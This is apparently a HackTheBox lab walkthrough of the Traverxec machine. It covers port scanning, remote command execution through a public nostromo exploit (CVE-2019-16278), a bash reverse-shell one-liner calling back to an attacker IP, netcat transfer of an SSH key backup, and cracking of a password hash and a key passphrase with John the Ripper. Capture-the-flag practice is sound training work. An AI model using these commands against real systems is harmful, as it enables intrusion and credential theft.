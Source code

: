 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6bd1fabe-e487-4657-90a4-a896dae1d1e7)

https://app.hackthebox.com/machines/Traverxec

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I started the enumeration using quick rust scan to check for open ports & services:

```bash
sudo rustscan -a 10.10.10.165 -- -sC -sV -vv -oN traver_nmap
```

```Rust
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVWo6eEhBKO19Owd6sVIAFVCJjQqSL4g16oI/DoFwUo+ubJyyIeTRagQNE91YdCrENXF2qBs2yFj2fqfRZy9iqGB09VOZt6i8oalpbmFwkBDtCdHoIAZbaZFKAl+m1UBell2v0xUhAy37Wl9BjoUU3EQBVF5QJNQqvb/mSqHsi5TAJcMtCpWKA4So3pwZcTatSu5x/RYdKzzo9fWSS6hjO4/hdJ4BM6eyKQxa29vl/ea1PvcHPY5EDTRX5RtraV9HAT7w2zIZH5W6i3BQvMGEckrrvVTZ6Ge3Gjx00ORLBdoVyqQeXQzIJ/vuDuJOH2G6E/AHDsw3n5yFNMKeCvNNL
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLpsS/IDFr0gxOgk9GkAT0G4vhnRdtvoL8iem2q8yoRCatUIib1nkp5ViHvLEgL6e3AnzUJGFLI3TFz+CInilq4=
|   256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJ16OMR0bxc/4SAEl1yiyEUxC3i/dFH7ftnCU7+P+3s
80/tcp open  http    syn-ack ttl 63 nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After the scan completed I found only 2 open ports 22 & 80. I also, noticed that the web server is running "nostrormo 1.9.6".

I checked in searchsploit database if there is any exploit available for this version & I found 3:

```bash
searchsploit nostrormo
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5d6e281-0d88-4215-9b8d-82209ced2dc6)

## Initial access:

After checking the results of serachsploit I observed that only 2 are showing the relevant version & from these 2 only 1 is having python exploit as other one is showing the metasploit exploit.
To not use the metasploit, I downloaded the python exploit & made some changes in the scirpt as it was showing error while running.

After making the necessary changes, I executed the script & observed the results:

```bash
python cve-2019-16278.py 10.10.10.165 80 'cat /etc/passwd'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a24e9815-044f-402b-b87b-7e3d7e90c107)

In the /etc/passwd file I observed 1 user "david".

Moving further to get a reverse shell, I used bash one-liner & executed it using the python script. After the execution I quickly received the reverse shell in my netcat listener. 🙂

```bash
python cve-2019-16278.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.128/53 0>&1"'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3b02ff8a-35ab-4d78-b109-108963928749)

## User access:

Now, I got the initial access as user "www-data" but I still don't have the user flag or sufficient access to read david's file.
To gain access as david, I started looking for manually & in one of the directory "/var/nostromo/conf" I found hashed credential belongs to david.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e1ff9641-baee-4355-91e9-7b302ca5dfb2)

I cracked this hash & gained the cleartext password from it:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9393b618-85b9-4d42-ab73-9fe7db127132)

Using this password I tried to switch to David from www-data & also tried to login via SSH but none of them worked. 😕

I then searched about the nhttpd documentation & found [this](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd):

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/72ae33a3-9e70-4aad-8ce7-9b29691d7f78)

Using the above logic, when I checked for the "~david", I observed that he is having his home dircetory hosted on the web:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/59e62377-8aa1-4308-b5a0-9a6a76c09af9)

Now, when I checked the existing "nhttpd.conf" file I observed the "homedirs_public" folder at "public_www":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e0f70c5c-d579-4147-b234-05aa203a6b15)

So, I moved into the David home directory & tried to list out the files but the current user doesn't have access for the David files, however I was able to cd into "public_www" folder located inside "David" home directory:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0da7de0d-8a8a-4389-b96f-43bd99076013)

While checking the directory, I observed a folder "cd protected-file-area" & in that folder I observed a backup file: "backup-ssh-identity-files.tgz".

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4c5e4650-68d0-4b12-b99c-dfe7ddafa84b)

I transferred this backup file to my kali host using netcat:

```bash
#from the victim machine
nc <kali IP> <Port> < backup-ssh-identity-files.tgz
```
```bash
#from my attacking machine
nc -lnvp <port> > output-file.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c1d9a98f-87d4-464a-82f9-161c2f05a53d)

Once the transfer is completed I unzipped the file using 'tar' comaand:

```bash
tar xzvf backup-ssh.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5d34a73a-506f-4158-aba7-65484c993de6)

After unzipping the file I got the "david" home directory which contains ssh private keys.

I changed the SSH private key file permission using "chmod 600" & tried to login with this key. But observed that this key is encrypted & I need password to use this private key as well.

So, I used John The ripper to crack the SSH private key password, using below command:

```bash
ssh2john id_rsa > john_rsa

john john_rsa -w=/usr/share/wordlist/rockyou.txt
```

After conevrting the file into John the ripper format & using the same to crack, I got the clear-text credentials in just few seconds:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4ba889f3-e112-447d-9a71-0b8164880ee8)

After using the cracked credentilas, I was finally able to login to David & fetched the user flag as well. (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/280cfb58-a11b-4191-aeca-6c1f3d056cad)





